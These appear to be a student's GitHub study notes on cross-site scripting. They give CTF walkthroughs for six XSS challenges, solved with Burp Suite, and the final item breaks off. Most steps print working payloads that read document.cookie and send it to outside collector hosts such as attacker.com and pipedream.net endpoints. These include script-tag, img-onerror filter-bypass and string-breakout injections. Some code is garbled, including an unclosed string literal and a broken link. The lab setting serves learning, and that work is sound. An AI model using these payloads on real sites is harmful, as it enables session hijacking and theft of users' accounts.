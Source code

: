 # XSS
* Cross-site scripting (XSS) is a web security vulnerability that allows attackers to inject malicious code into a user's browser.

## Part 1. Report
 
## Part 2. XSS
- Working on Web Browser: JavaScript
- Working location: victim's web browser

1. Stored XSS -> Save in the server
2. Reflected XSS -> rebound from Server
3. XSS, CSRF
4. Steal cookie by using JavaScript

```javascript
var cookieData = document.cookie;
var i = new Image();
  i.src = "HTTP://normaltic.attacker.com/
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + "Secret_data";
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + cookieData;
```

5. VPS or requestbin - https://public.requestbin.com/r/

6. XSS
   [Common XSS Errors[(https://github.com/imnarendrabhati/testing-new/blob/master/%3CIMG%20SRC%3DX%20ONERROR:JAVASCRIPT:ALERT(1)%3B%3E)

1) CTF XSS 1 (https://portswigger.net/web-security/cross-site-scripting/contexts)
- Error = Input script
- Annoucement and create content "<script>alert(1)</script>" on the subject.
- When you click it, the alert shows up.
- Instead of alert(1), put var i = new Image(); i.src = "HTTP://en7riltg206nc.x.pipedream.net/getCrred.php?cookie=" + cookieData;
- In BurpSuite, instead of alert(1), put the below code
```javascript
var cookieData = document.cookie; 
var i = new Image();
i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;
```

- On the admin visit url = type the address made by the attack post
- Check the flag on https://public.requestbin.com/

7. DOM Based XSS
- Create a tag by using JavaScript
- Create and execute a new script from a browser
- an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim's browser used by the original client-side script,
- document.write = "";
- innerHTML

## Part 3. Assignment
1. Review
2. XSS CTF <br>
a. CTF XSS 2
  - Error = Showing the direct sentence on HTML = <script>alert('x에 대한 검색 결과가 존재하지 않습니다.');</script>
  - Check Attack statement on search bar = xss');alert(1);var i=('
  - Check Attack => xss');var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;var i=('
  - Send to repeater the POST URL to change GET method
  - Replace the Repeater on Burp Suite, working on the GET method instead of the POST method because the host gets the access
  - The GET URL inputs the admin visit URL bar
  - Check the flag on https://public.requestbin.com/

b. CTF XSS 3
  - Error = Showing ID on the URL on the personal information 
  - Check the attack possibility to change the ID on Burp Suite Request
  - Check the attack statement => aaa"/><script>alert(1)</script>
  - Check the attack => aaa"/><script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
  - Copy GET URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

  c. CTF XSS 4
    - Error = In the board, it is possible to use special characters (<'">).
    - Check the attack possibility of using an attack statement on the board. => <script>alert(1)</script>
    - Filtering "script" and "alert", so using another attack statement => <img src=x onerror=confirm(1)> 
    - Check the attack => <img src="https://x" onerror="location.href='http://enjt04rx79at.x.pipedream.net/?cookie=' + document.cookie;">
    - Block the long subject
    - Check the attack on the content box
    - Copy URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  d. CTF XSS 5
    - Error = In the board, it is possible to use special characters (<'">), but it converts &lt;
    - Check the attack possibility of using an attack statement on the board => <script>alert(1)</script>
    - Using the Burp Suite, the website should be intercepted step by step
    - Create a new post and forward
    - Check the attack statement => <script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
    - During the intercept, change the filtered attack statement
    - Open the new post and copy the URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  e. CTF XSS 6
    - Error = When you log in wrong, the alert pops up.
    - Check the attack possibility in the Burp Suite
    - The POST proxy sends to Repeater and changes the method to GET
    - Check special characters and it works
    - Check the attack statement => +]');alert(1)//
    - Check the attack => +]');location.href='http://enjt04rx79at.x.pipedream.net/?cookie='%2bdocument.cookie;//
    - Copy URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  f. CTF XSS Challenge 
